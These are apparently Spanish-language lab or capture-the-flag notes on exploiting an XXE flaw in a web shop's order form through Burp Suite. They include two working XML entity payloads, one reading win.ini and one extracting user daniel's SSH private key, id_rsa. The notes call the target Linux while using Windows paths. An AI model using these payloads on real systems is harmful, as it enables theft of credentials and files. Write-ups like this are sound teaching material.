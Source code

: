 Una **vulnerabilidad XXE** ocurre cuando una aplicación lee archivos XML y permite que se carguen datos externos. Esto puede hacer que un atacante lea archivos del sistema o envíe datos a servidores externos. Es un fallo de seguridad que puede exponer información sensible.

-------

Interceptamos con burpsuite la peticion de la parte de ordenes de la pagina
![[Markup10.png]]

![[Markup12.png]]
Ahora vamos a cambiar la estructura del XML por lo que vimos en el [articulo de xxe payloadallthethings](https://gitlab.com/kalilinux/packages/payloadsallthethings/-/tree/kali/master/XXE%20Injection)
![[Markup14.png]]

Como estamos en una maquina linux, vamos a leer el archivo win.ini de prueba, en la parte que pusimos &test; lo hicimos por que el unico output que se muestra como se ve en la primera foto es el de esa etiqueta
```xml
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/windows/win.ini'>]>
<order><quantity>test</quantity><item>&test;</item><address>test2</address></order>
```


![[Markup13.png]]

### Sacamos archivo de id_rsa
Como sabemos que existe el usuario daniel y esta activo el servicio de ssh por el puerto 22 como vimos antes con nmap
Vamos a ver si en su escritorio tiene las claves de ssh
```
<?xml version = "1.0"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///c:/users/daniel/.ssh/id_rsa'>]>
<order><quantity>test</quantity><item>&test;</item><address>test2</address></order>
```
